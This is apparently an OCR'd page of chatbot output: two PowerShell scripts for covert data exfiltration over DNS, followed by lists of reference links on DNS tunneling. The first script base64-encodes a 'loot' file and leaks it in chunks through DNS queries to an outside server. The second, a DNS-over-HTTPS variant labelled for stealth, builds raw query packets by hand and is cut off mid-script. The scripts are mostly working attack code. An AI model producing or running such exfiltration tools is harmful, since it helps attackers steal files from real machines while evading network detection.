```powershell
# dns_exfil_stealth.ps1
param (
    [string]$File = "C:\loot.txt",
    [string]$Domain = "exfil.lab",
    [string]$DnsServer = "10.0.0.5"
)

$Session = $env:COMPUTERNAME
$Data = [IO.File]::ReadAllBytes($File)
$Base64 = [Convert]::ToBase64String($Data)
$Chunks = $Base64.ToCharArray()
$Index = 0

while ($Chunks.Count) {
    $Chunk = ($Chunks[0..([Math]::Min(49, $Chunks.Count - 1))] -join '')
    $Chunks = $Chunks[$Chunk.Length..($Chunks.Count - 1)]
    $Query = "$Session.$Index.$Chunk.$Domain"
    Resolve-DnsName -Name $Query -Server $DnsServer -Type A -ErrorAction SilentlyContinue | Out-Null
    $Index++
}
```

---

# ✅ 3. DNS-over-HTTPS (DoH) Variant – `dns_exfil_doh.ps1`

```powershell
# dns_exfil_doh.ps1
param (
    [string]$File = "C:\loot.txt",
    [string]$Domain = "exfil.lab",
    [string]$DoHServer = "https://10.0.0.5/dns-query"
)

function Build-DnsQuery {
    param([string]$FQDN)

    $labels = @()
    foreach ($label in $FQDN.Split('.')) {
        $labels += [byte]$label.Length
        $labels += [System.Text.Encoding]::ASCII.GetBytes($label)
    }

    $header = @(0x01,0x00,0x00,0x01,0x00,0x00,0x00,0x00,0x00,0x00)  # standard DNS query
    $qtype = @(0x00, 0x01)  # Type A
    $qclass = @(0x00, 0x01) # Class IN

    return ,@(0x12, 0x34) + $header + $labels + 0x00 + $qtype + $qclass
}

$Session = $env:COMPUTERNAME
$Data = [IO.File]::ReadAllBytes($File)
$Base64 = [Convert]::ToBase64String($Data)
$Chunks = $Base64.ToCharArray()
$Index = 0

while ($Chunks.Count) {
    $Chunk = ($Chunks[0..([Math]::Min(49, $Chunks.Count - 1))] -join '')
    $Chunks = $Chunks[$Chunk.Length..($Chunks.Count - 1)]
    $QueryName = "$Session.$Index.$Chunk.$Domain"
    $DnsPacket = [byte[]](Build-DnsQuery -FQDN $QueryName)

```

[1]: https://github.com/PaulKoumedzro/iodine-DNS-tunneling?utm_source=chatgpt.com "GitHub - PaulKoumedzro/iodine-DNS-tunneling: Official git repo for iodine dns tunnel"
[2]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[3]: https://danger-team.org/the-ultimate-dns-tunneling-guide-from-zero-to-hero/?utm_source=chatgpt.com "The Ultimate DNS Tunneling Guide: From Zero to Hero"
[4]: https://exfil.tymyrddin.dev/docs/thm/dns-tunnel?utm_source=chatgpt.com "DNS tunneling — Gathering edibles"
[5]: https://medium.com/%400xHossam/evading-detection-and-stealthy-data-exfiltration-with-dns-over-https-doh-ee134b5766d4?utm_source=chatgpt.com "Evading Detection and Stealthy Data Exfiltration with DNS over HTTPS (DoH) | by Hossam Ehab | Medium"
[6]: https://www.reddit.com/r/hacking/comments/mhzsz0?utm_source=chatgpt.com "Exfiltrate files using the DNS"
[7]: https://medium.com/learning-cybersecurity/http-dns-encrypted-data-exfiltration-techniques-77d6fee6c749?utm_source=chatgpt.com "HTTP/DNS/Encrypted data exfiltration techniques | by Angel Mercado | Learning CyberSecurity | Medium"
[1]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[2]: https://nhairs.github.io/dnslib/latest/reference/dnslib/?utm_source=chatgpt.com "Index - Dnslib"
[3]: https://nhairs.github.io/dnslib/latest/?utm_source=chatgpt.com "Dnslib"
[4]: https://github.com/stamparm/python-doh?utm_source=chatgpt.com "GitHub - stamparm/python-doh: Python client for DNS over HTTPS (DoH) protocol"
[5]: https://en.wikipedia.org/wiki/DNS_over_HTTPS?utm_source=chatgpt.com "DNS over HTTPS"
[6]: https://medium.com/%40Oscar404/dns-tunneling-attack-d2b610150a45?utm_source=chatgpt.com "DNS Tunneling attack. Introduction to DNS Tunneling | by Oscar404 | Medium"
[7]: https://www.reddit.com/r/masterhacker/comments/n5g46a?utm_source=chatgpt.com "So... I guess they were right all along?"